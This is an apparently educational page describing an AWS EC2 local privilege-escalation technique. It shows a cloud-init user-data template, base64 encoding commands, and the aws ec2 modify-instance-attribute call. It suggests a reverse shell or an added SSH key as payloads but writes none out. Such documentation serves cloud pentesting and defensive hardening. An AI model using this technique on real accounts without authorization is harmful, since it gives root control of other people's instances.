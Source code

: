 ```yaml
---
title: "Local Privilege Escalation: User Data"
description: Escalate privileges on an EC2 instance by modifying the user-data scripts with modify-instance-attribute.
---
```


**Required IAM Permission**: [modify-instance-attribute](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/modify-instance-attribute.html)  
**Recommended but not required**: [start-instances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/start-instances.html), [describe-instances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/describe-instances.html), [stop-instances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/stop-instances.html) (makes things go faster, requires less enumeration. The instance must be stopped to alter the user data)  

If an adversary has access to the modify-instance attribute permission they can leverage it to escalate to root/System on an EC2 instance.

Usually, user data scripts are only run the first time the instance is started, however this can be changed using [cloud-init](https://aws.amazon.com/premiumsupport/knowledge-center/execute-user-data-ec2/) to run every time the instance restarts.

To do this, first create a file in the following format.

```
Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
**commands here**
--//
```

Modify the ```commands here``` section to do whatever action you want. Setting a reverse shell, adding an ssh key to the default user, etc. are all good options.

Once you've done that, convert the file to base64. Linux can do this with the following command.

```base64 file.txt > file.b64.txt```

Windows can do this with the following command.

```certutil -encode file.txt tmp.b64 && findstr /v /c:- tmp.b64 > file.b64.txt```

Now that you've base64 encoded your payload, you will leverage the modify-instance-attribute API call to change the user data of the target instance. Note: the instance will need to be stopped to modify its user data. You'll either have to stop it yourself, or wait for something else to stop it.

```
aws ec2 modify-instance-attribute \
--instance-id=xxx \
--attribute userData \
--value file://file.b64.txt
```

With that change made, simply start the instance again and your command will be executed with root/System.